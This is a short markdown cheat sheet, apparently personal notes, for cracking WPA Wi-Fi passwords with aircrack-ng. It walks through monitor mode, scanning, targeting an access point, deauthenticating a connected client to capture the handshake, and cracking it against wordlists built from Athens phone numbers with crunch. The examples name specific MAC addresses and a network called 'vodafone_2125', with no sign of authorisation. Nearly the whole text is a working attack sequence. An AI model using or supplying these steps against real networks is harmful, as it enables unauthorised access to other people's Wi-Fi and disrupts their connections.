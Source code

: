 ## setup wireless adapter
- vbox usb passthrough: add $USER to _vboxusers_ group to allow usb passthrough

## Steps

### setup interface
* airmon-ng check kill
* systemctl stop <services that create conflict>
* airmon-ng start <interface>

### monitor wifi networks
* airodump-ng <interface>
* pick out bssid's that have clients (stations) associated with them

### focus on a specific target
* airodump-ng --bssid <target AP> -c <channel> --write <filename> <interface>  
e.g. airodump-ng --bssid 74:9D:79:23:A0:E4 -c 6 --write vodafone_2125 wlp0s20f0u2mon

### deauthenticate
* aireplay-ng --deauth 100 <interface> -a <bssid> -c <client_mac>  
e.g. aireplay-ng --deauth 100 wlp0s20f0u2mon -a 74:9D:79:23:A0:E4 -c 48:4B:AA:86:94:4B
* wait for the message "WPA handshake" to appear in the previous step's airdump screen

### crack the hash
* aircrack-ng <pcap file> -w <wordlist>

### generate 10-digit phone numbers with crunch
* ./crunch 10 10 -t 210%%%%%%% -o athens.txt

### greek wordlists
* https://github.com/kraniasorestis/greek-wordlists
* https://medium.com/@iraklis/creating-a-greeklish-wordlist-for-password-cracking-2ebd756a87a9
